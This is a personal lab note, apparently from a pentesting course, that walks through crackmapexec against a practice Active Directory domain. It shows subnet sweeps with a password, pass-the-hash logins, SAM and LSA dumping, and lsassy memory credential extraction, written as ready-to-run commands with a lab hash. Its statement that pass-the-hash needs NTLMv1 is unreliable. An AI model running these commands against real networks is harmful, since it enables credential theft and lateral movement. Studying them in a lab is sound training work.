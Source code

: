 - Needed to install using `pimpmykali:
	- `git clone https://github.com/Dewalt-arch/pimpmykali`
	- `cd pimpmykali; sudo ./pimpmykali`
	- Choose option: `%` to install crackmapexec
	- Get help for smb using: `crackmapexec smb --help`

# Sweep the subnet using crackmapexec
---
- `crackmapexec smb 10.0.1.4/24 -u fcastle -d MARVEL.local -p Password1`
	- Domain `fcastle` user is present on both Punisher and Spiderman, therefore:
		- ![[Pasted image 20250329154733.png]]

# Pass the Hash attack using crackmapexec:
---
- Only works ==if hash is `NTLMv1`==
- `crackmapexec smb 10.0.1.4/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth`
	- ![[Pasted image 20250329155406.png]]
- **Dumping SAM hashes:**
- `crackmapexec smb 10.0.1.4/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth --sam`
	- ![[Pasted image 20250329155628.png]]
- **Dumping LSA**
- ---
- `crackmapexec smb 10.0.1.4/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth --lsa`

	![[Pasted image 20250329160225.png]]

- Some of the secrets are important:
	- `DCC2` : We can take these hashes and try to crack them.
	- These are the ==**stored credentials from which someone logged in past**==.
	- **Could be expired passwords.**

- **More stuff**
- ---
- `crackmapexec -L`
	- `gpp_password` , `impersonation`, `keepass_files`, `keepass_discover`
	- **`LSASSY`**
		- `crackmapexec smb 10.0.1.4/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth -M lsassy`
		- If there is any **==secret stored in memory of logged in users==**, we can see those.

# Stored Credentials using cmedb
---
- `cmedb`
- ![[Pasted image 20250329160550.png]]
- ![[Pasted image 20250329160559.png]]